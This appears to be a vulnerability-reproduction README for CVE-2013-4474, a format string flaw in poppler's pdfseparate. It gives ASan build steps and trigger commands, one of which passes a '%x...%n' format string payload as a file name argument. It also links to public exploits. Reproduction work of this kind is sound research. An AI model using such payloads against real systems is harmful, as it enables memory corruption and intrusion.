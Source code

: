# CVE-2013-4474

## Experiment Environment

CentOS 6.5

## INSTALL & Configuration

```
wget https://github.com/mudongliang/source-packages/raw/master/CVE-2013-4473/poppler-0.24.2.tar.xz
tar -xvf poppler-0.24.2.tar.xz
cd poppler-0.24.2
CC=/ASAN--/llvm-4.0.0-project/ASan--Build/bin/clang CXX=/ASAN--/llvm-4.0.0-project/ASan--Build/bin/clang++ CFLAGS="-fsanitize=address -g" CXXFLAGS="-fsanitize=address -g" ./configure
make
```

## Problems in Installation & Configuration


## How to trigger vulnerability

```
./utils/pdfseparate -f 1 -l 1 aPdfFile.pdf "%x%x%x%x%x%x%n"
./utils/pdfseparate pdf.pdf test-%s-%d.pdf
```

## PoCs

[CVE request: 3 vulnerabilities in poppler and 1 in Xpdf](http://seclists.org/oss-sec/2013/q4/181)

[Poppler 0.14.3 - '/utils/pdfseparate.cc' Local Format String](https://www.exploit-db.com/exploits/38817/)

[Poppler '/utils/pdfseparate.cc' Local Format String Vulnerability](https://www.securityfocus.com/bid/63374/exploit)

## Vulnerability Details & Patch

### Root Cause

### Stack Trace

### Patch

Details are in <https://cgit.freedesktop.org/poppler/poppler/diff/utils/pdfseparate.cc?id=61f79b8447c3ac8ab5a26e79e0c28053ffdccf75>

## References

